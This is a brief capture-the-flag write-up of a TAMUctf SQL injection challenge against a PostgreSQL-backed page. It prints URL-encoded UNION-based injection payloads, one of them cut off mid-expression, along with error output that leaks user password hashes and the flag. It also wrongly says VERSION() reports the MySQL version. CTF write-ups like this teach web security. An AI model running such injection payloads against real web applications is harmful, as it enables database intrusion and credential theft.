 This challenge was related to simple  PostgreSQL. injection
The VERSION() function returns the current version of the MySQL database, as a string which let's us know it's postgresql

"https://shell.tamuctf.com/problem/50034/?name=Cone%27%20union%20select%20%271%27,%20%272%27,%20%27safe%27,(CASE%20WHEN%20((SELECT%20CAST(CHR(32)"

we get the respective output from this.

invalid input syntax for type numeric: " 1 Default safe default testing icon avatar 2 Teddy euclid To please the teddy, one must offer them a sacrifice of your finest tea teddy 3 Traffic Cone #88192 neutralized We believe they appear from interdimensional rifts with no clear origin cone 4 Gnomial thaumiel If encountered in the wild do not make eye contact. They only become more aggressive. gnome 5 Ǎ̷̓d̴͗͒d̸͛͛i̷͋̃ṡ̵̍ơ̸̒ṅ̶̌ apollyon H̵̔̂Ė̵̈ ̴̛̽I̵͛͘S̷͒̇ ̷̈́̒Ȁ̷͚L̴̀̿R̴̾̌E̷͆̚Ā̶̛D̷̒̐Y̶͗͌ ̷̏̔H̶̿̚Ẽ̶̄R̷̈́͝E̸̊̈́ crump 1 glenn 9651cbc7c0b5fb1a81f2858a07813c82 Making More Challenges 2 teddy e2ec2b31abe380b989ff057aef66377a PWNing Away 3 admin gigem{SQL_1nj3ct1ons_c4n_b3_fun} Away on Vacation "

as we can see the user name is thaumiel and hence we include it in our payload
payload="Cone%27+Union+select+1,password,%27thaumiel%27,%27d%27,%27a%27+from+users--"


it allows to execute a fully formatted subquery within the injected part, which technically has almost the same impact as interacting with a pure PostgreSQL database. 


gigem{SQL_1nj3ct1ons_c4n_b3_fun}


